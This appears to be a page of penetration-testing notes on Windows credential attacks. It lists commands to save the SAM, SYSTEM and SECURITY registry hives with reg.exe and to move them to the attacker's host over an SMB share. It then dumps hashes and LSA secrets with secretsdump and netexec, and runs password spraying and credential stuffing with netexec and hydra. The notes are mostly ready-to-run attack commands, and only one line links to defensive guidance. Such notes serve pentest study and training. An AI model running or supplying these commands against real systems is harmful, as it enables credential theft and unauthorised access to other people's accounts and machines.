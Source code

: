 
### Attacking SAM, SYSTEM, & SECURITY

```
# Regsitry Hives

    1. SAM: Hashes of user accounts
    2. SYSTEM: system boot key, which can decrypt the hashes
    3. SECURITY: inforamtion used by LSA, cached domain creds, cleartext passwords, DPAPI Keys
        3a. DPAPI: Data Protection Application Programming Interface

# Copy Regsitry Hives useing reg.exe

    1. reg.exe save hklm\sam C:\sam.save
    2. Repeat for SYSTEM and SECURITY

# Transfer back to host using smbserver

    1. sudo python3 smbserver.py -smb2support CompData ~
    2. From target machine: move file \\[host ip]\dir

# Dump Hashes using secretsdump

    1. python3 secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

# NOTE: Defending against Cred Dumping

    1. https://attack.mitre.org/techniques/T1003/002/

# Extract LSA secrets from servcies, tasks, and applications (Using cracks creds)

    1. netexec smb [ip] --local-auth -u bob -p [pass] --lsa

# netexec to dump SAM

    1. netexec smb [ip] --local-auth -u bob -p [pass] --sam
```

<br>

### Password Spraying, stuffing, and defaults

```
# netexec

    1. netexec smb [ip]/24 -u list -p 'password'


# Stuffing (Reusing creds from one service on another

    1. hydra -c username_and_password.list ssh:[ip]

# Default creds

    1. ~/tools/default creds
    2. source bin/activate
    3. creds search ****
```
